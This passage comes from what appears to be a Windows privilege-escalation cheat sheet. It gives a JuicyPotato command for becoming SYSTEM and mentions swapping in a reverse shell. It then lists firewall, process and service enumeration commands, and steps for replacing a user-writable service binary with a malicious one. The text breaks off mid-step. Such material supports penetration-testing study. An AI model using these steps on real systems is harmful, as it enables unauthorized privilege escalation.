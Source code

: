 If the user has SeImpersonate or SeAssignPrimaryToken privileges then you can use [JuicyPotato](https://github.com/ohpe/juicy-potato) and become SYSTEM.

To use the JuicyPotato exploit, run the following:

```console
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

You can find a CLSID that works for your target from [ohpe Github](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md). You can also change the process to be executed with a reverse shell to your target.

_Note: Windows Server 2019 is not affected by this vulnerability._

## Firewall status and rules enumeration

```console
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
```

## Process enumeration  

```console
tasklist /SVC
```

## Insecure file permissions enumeration

**Can we replace a service running as a privileged user? Can we modify its path?**

Run the following command in Powershell and look for weird programs:

```console
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

Once you spot a weird service (Let's refer to it as weird.exe from now on); use _icacls_ to determine if the current user can modify it or not:

```console
icacls "c:\program files\weird.exe"
```

If the user can modify the program; you should see _BUILTIN\Users: (I)(F)_ in the output of the above command. If this is the case; you can replace the program with a malicious one (same name) and restart it:

```console
net stop weird
```

If you do not have permission to restart the program; check its start mode. If it's automatic;you can restart the machine instead:
